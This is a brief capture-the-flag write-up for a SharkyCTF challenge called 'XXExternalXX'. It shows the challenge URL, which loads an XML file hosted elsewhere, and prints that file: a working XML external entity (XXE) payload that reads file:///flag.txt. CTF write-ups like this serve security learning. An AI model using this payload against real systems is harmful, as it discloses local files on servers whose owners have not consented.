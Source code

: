 # XXExternalXX

http://xxexternalxx.sharkyctf.xyz/?xml=http://empty.jack.su/6e13400f89d5047731b4095a7d151f1c/13373.xml

file:
```
<?xml version="1.0" ?>
<!DOCTYPE data [<!ENTITY xxe SYSTEM 'file:///flag.txt'>]>
<root><data>&xxe;</data></root>
```
